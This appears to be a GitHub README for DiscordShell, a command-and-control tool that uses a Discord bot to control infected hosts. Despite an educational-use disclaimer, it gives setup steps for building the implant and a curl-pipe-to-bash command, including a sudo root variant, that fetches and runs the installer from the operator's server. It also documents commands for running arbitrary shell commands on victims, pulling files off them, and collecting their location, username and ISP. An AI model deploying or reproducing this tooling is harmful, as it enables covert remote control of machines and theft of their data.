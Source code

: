 # DiscordShell

C2 hosted on Discord via use of the Discord Python API. Created by [Sid Lacy](https://github.com/lacysw) and [Nathan Burns](https://github.com/AlbinoGazelle).

The files contained in this repository are intended for educational purposes only. Malicious use of code hosted within this repository is not permitted.

## Screenshots

Instant notifications on client join.
![Instant notifications on client join.](/img/clientJoin.png)

Easy access to basic client information.
![Easy access to basic host information.](/img/clientHosts.png)

Client latency information request.
![Support for executing arbitraty non-interactive commands.](/img/clientPing.png)

[!] SHELL: Support for executing any arbitraty non-interactive commands.
![SHELL: Support for executing any arbitraty non-interactive commands.](/img/clientCommand.png)

Support for uploading files to the client.
![Support for uploading files under 4MB to the client (Discord API limitations).](/img/clientUpload.png)

Support for downloading files from the client.
![Support for uploading files under 4MB to the client (Discord API limitations).](/img/clientDownload.png)

At-will client deauthorization.
![Instant notifications on client join.](/img/clientKill.png)

## Setup

### Discord

1. Follow [these instructions](https://discordpy.readthedocs.io/en/stable/discord.html).
2. Save the bot token for later use.
3. Create a C2 channel in your discord; this is where the bot will accept commands. Copy the channel ID and save it for later.
4. Copy your user ID and save it for later use.

### Host

1. Edit the variables `apitoken`, `debug`, and `allowed_users` inside `shell.py` with the information you saved earlier.
2. Run `build.sh` to yield an executable.
3. Edit the variables `$srcip` and `$srcport` inside of `install.sh` to contain the IP address and port of the server hosting the shell.
4. Host the executable (`shell`) and `installer.sh` at `$scrip:$scrport`.

### Client

 - Execute `curl -s  http://$srcip:$srcport/installer.sh | bash` for a standard connection.
 - Execute `curl -s  http://$srcip:$srcport/installer.sh | sudo bash` for a root connection.

## Supported Features & Syntax

All supported commands are prefixed with `?`.
 - `?hosts`: Request the following information for every active client:
    - IP address; click to navigate instantly to `whois.domaintools.com/${IP}`
    - Alpha-2 country code of residence
    - Estimated location coordinates; click to instantly navigate to `google.com/maps?q=${latitude},${longitude}`
    - Detected operating system
    - EUID (permissions)
    - Username and hostname
    - The service provider of the internet connection
 - `?cmd ${client_id} ${command}`: Executes a command on a specified client. Command result will be returned in a discord message.
    - Example: `?cmd abcd1234 whoami`
    - Example: `?cmd abcd1234 ls -la`
 - `?download ${client_id} ${path}`: Download specified file from client. Data will be returned in a discord message, has a limitation of 4MB in non-boosted servers.
    - Example: `?download abcd1234 file.txt`
    - Example: `?download abcd1234 /home/user/picture.png`
 - `?upload ${client_id} ${path}`: Upload a file to a specified client. Status message will be returned in a discord message, has a limitation of 4MB in non-boosted servers.
    - Example: `?upload abcd1234 resource.sql`
    - Example: `?upload abcd1234 /usr/sbin/function.sh`
 - `?kill ${client_id}`: Terminate a specified client. Status message will be returned in a discord message.
    - Example: `?kill abcd1234`


## Plans

 - Better error handling.
 - Comprehensive logging.